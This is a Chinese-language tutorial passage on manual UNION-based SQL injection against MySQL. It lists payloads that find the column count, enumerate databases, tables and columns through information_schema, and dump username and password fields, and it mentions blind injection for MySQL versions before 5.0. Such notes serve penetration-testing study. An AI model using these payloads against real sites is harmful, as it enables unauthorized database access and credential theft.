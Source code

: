 #### （1）获取字段数

```
order by n  /*通过不断尝试改变n的值来观察页面反应确定字段数*/
```

#### （2）获取系统数据库名

在MySQL >5.0中，数据库名存放在information_schema数据库下schemata表schema_name字段中

```
select null,null,schema_name from information_schema.schemata
```

#### （3）获取当前数据库名

```
select null,null,...,database()
```

#### （4）获取数据库中的表

```
select null,null,...,group_concat(table_name) from information_schema.tables where table_schema=database()
```

或

```
select null,null,...,table_name from information_schema.tables where table_schema=database() limit 0,1
```

#### （5）获取表中的字段

这里假设已经获取到表名为user

```
select null,null,...,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'
```

#### （6）获取各个字段值

这里假设已经获取到表名为user，且字段为username和password

```
select null,group_concat(username,password) from users
```

### 2、MySQL < 5.0

MySQL < 5.0 没有信息数据库**information_schema**，所以只能手工枚举爆破（二分法思想）。

该方式通常用于盲注。

### 相关函数

**length(str)** ：返回字符串str的长度

